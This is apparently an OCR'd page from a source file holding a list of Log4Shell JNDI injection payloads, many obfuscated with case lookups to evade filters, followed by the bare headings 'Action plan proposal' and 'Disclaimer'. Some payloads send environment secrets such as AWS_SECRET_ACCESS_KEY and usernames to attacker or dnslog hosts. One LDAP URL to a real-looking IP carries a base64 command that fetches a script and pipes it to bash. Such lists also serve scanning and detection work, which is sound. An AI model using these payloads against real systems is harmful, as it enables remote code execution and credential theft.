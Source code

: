 ```text
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://xxx
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}},
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dslepf.dnslog.cn/tem}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}},
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${upper:p}://somesitehackerofhell.com/z}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://1234.${hostName}.com}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }
${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}
${jndi:dns://${env:COMPUTERNAME}.uedo81.dnslog.cn/a}
${jndi:dns://${env:USERDOMAIN}.qnfw43.dnslog.cn/a}
${jndi:dns://${hostName}.uedo81.dnslog.cn/a}
${jndi:dns://aeutbj.example.com/ext}
${jndi:dns://{{callback_host}}}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.badserver.com} 
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${env:USER}.attacker.server/}
${jndi:ldap://${env:user}.uedo81.dnslog.cn/exp}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://45.155.205[.]233[:]12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC9bdmljdGltIElQXTpbdmljdGltIHBvcnRdfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0L1t2aWN0aW0gSVBdOlt2aWN0aW0gcG9ydF0pfGJhc2gK}
${jndi:ldap://dslepf.dnslog.cn/exp}
${jndi:ldap://somesitehackerofhell.com/z}
${jndi:rmi://a.b.c}
${jndi:rmi://{{callback_host}}},
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${k8s:k5:-ND}i${sd:k5:-:}
j${loWer:Nd}i${uPper::}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
jn${date:}di${date:':'}
jn${env::-}di:
```

# Action plan proposal

## Diclaimer
